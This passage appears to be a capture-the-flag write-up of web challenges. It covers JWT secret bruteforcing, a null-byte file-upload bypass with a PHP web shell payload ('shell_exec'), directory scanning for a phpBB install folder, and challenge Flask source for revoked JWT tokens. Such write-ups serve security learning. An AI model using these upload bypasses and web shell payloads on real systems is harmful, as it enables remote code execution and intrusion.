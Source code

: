 bruteforce secret key: lol

![sign new signature](<../../.gitbook/assets/image (4) (1).png>)

POST and look for the flag hm....

![](<../../.gitbook/assets/image (11) (1).png>)

### 19.File upload - Null byte

create: `file.php%0a.png`

```
<?php echo shell_exec('id'); ?>
```

![](<../../.gitbook/assets/image (2) (1) (3).png>)

![](<../../.gitbook/assets/image (6) (2) (2).png>)

### 20.Install files

use dirsearch: /web-serveur/ch6/phpbb/install

![](<../../.gitbook/assets/image (8) (3).png>)

### 21. JWT - Revoked token

source

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from flask import Flask, request, jsonify
from flask_jwt_extended import JWTManager, jwt_required, create_access_token, decode_token
import datetime
from apscheduler.schedulers.background import BackgroundScheduler
import threading
import jwt
from config import *
 
# Setup flask
app = Flask(__name__)
 
app.config['JWT_SECRET_KEY'] = SECRET
jwtmanager = JWTManager(app)
blacklist = set()
lock = threading.Lock()
 
# Free memory from expired tokens, as they are no longer useful
def delete_expired_tokens():
    with lock:
        to_remove = set()
        global blacklist
        for access_token in blacklist:
            try:
                jwt.decode(access_token, app.config['JWT_SECRET_KEY'],algorithm='HS256')
            except:
                to_remove.add(access_token)
       
        blacklist = blacklist.difference(to_remove)
 
@app.route("/web-serveur/ch63/")
def index():
    return "POST : /web-serveur/ch63/login <br>\nGET : /web-serveur/ch63/admin"
```